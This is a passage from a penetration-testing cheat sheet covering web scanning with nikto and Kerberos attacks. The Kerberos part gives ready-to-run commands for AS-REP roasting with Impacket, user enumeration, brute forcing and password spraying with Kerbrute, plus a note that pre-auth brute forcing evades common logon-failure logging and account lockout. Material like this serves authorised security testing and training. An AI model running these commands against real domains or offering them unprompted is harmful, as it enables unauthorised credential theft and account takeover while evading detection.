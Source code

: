 Check for common vulnerabilities or misconfigurations :  
```
nikto -host http://$HOST
```

- [Wappalyzer](https://www.wappalyzer.com/)  

Browser add-on which finds website technologies.  

### 88 & 464 - Kerberos

- AS-REP roasting with Impacket - GetNPUsers.py  

Get TGTs of users who have "do not require Kerberos preauthentication" set :  
```
python GetNPUsers.py $DOMAIN/ -dc-ip $HOST -request
```

For a specific user :  
```
# no creds
python GetNPUsers.py $DOMAIN/$USER -dc-ip $HOST -no-pass

# with creds
python GetNPUsers.py $DOMAIN/$USER:$PWD -dc-ip $HOST
```

- Kerbrute  

**User enumeration :**  
```
kerbrute userenum --dc $HOST -d $DOMAIN $WORDLIST
```
Example :  
`kerbrute userenum --dc 10.10.10.10 -d domain.local /opt/SecLists/Usernames/xato-net-10-million-usernames-dup.txt`  

**Bruteforce user :**  

Kerberos pre-auth bruteforce is much faster than SMB/RPC and also probably stealthier, it doesn't trigger a "4625 Account Failed to Logon" event but "4471 Kerberos pre-authentication failure" and "4768 Kerberos TGT requested" instead. Oh and it doesn't count towards lockout. More [here](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Fun_With_LDAP.pdf).  

```
kerbrute bruteuser --dc $HOST -d $DOMAIN $WORDLIST $USER
```
Example :  
`kerbrute bruteuser --dc 10.10.10.10 -d domain.local /usr/share/wordlists/rockyou.txt alice`  

**Password spray :**  
```
kerbrute passwordspray --dc $HOST -d $DOMAIN $FILE_USERS $PASSWORD
```
Example :  
`kerbrute passwordspray --dc 10.10.10.10 -d domain.local domain_users.txt Password123!`  

### 110 - POP3
